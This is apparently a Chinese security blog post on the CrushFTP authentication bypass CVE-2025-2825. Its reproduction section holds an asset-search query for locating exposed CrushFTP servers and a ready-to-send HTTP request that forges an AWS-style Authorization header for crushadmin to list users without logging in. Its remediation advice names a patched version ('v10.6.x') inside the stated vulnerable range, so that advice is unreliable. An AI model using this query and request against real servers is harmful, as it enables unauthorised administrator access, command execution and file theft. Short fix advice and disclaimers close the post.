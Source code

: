 #  CrushFTP身份认证绕过漏洞（CVE-2025-2825)   
 YuanQiu安全   2025-04-28 09:43  
  
## 免责声明  
> 由于传播、  
本公众号  
所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，本公众号及作者不为此承担任何责任！  
一旦造成后果请自行承担！  
如有侵权烦请告知，我们会立即删除并致歉，谢谢！  
  
  
## 一、前言  
  
**1. 漏洞简介**  
  
**CrushFTP 是由 CrushFTP LLC 开发的文件传输服务器软件，它的主要用途是提供安全、可靠的文件传输服务。它允许用户通过多种协议（如FTP、SFTP、HTTP、WebDAV等）安全地上传、下载和管理文件。由于CrushFTP未对请求的标头进行严格的安全检查和限制，导致未经身份验证的攻击者可以通过发送带有特定标头的请求绕过认证机制来获取管理员权限，进而执行任意内置命令，或读取服务器上的任意文件。**  
  
**漏洞编号：CVE-2025-2825**  
  
**影响版本：10.0.0 <= CrushFTP <= 10.8.3**  
  
11.0.0 <= CrushFTP <= 11.3.0  
## 二、漏洞复现  
```
资产语法(Hunter): web.title="CrushFTP WebInterface"
```  
```
GET /WebInterface/function/?command=getUserList&serverGroup=MainUsers&c2f=zE1G HTTP/1.1
Host: 192.168.1.13:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/javascript, text/html, application/xml, text/xml, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Length: 0
Connection: keep-alive
Cookie: currentAuth=zE1G; CrushAuth=1743755252300_3oa5v32dYiIPaoHiBqK6MnezuvzE1G
Authorization: AWS4-HMAC-SHA256 Credential=crushadmin/
Priority: u=0
```  
## 三、修复建议  
```
官方已在 2025 年 3 月底发布补丁，请务必更新至最新版本（v10.6.x 以上）
若无法立即更新，请临时：
禁用外部访问接口
设置防火墙规则仅允许可信 IP 访问
监控异常请求日志中的 
CrushAuth 或 
getUserList 请求
```  
  
**Taps:**  
  
  
  
  
  
## 希望大家以遵守《网络安全法》相关法律为前提来使用该工具，  
  
  
##     对于恶意使用该工具造成的损失，和本人及开发者无关。  
  
  
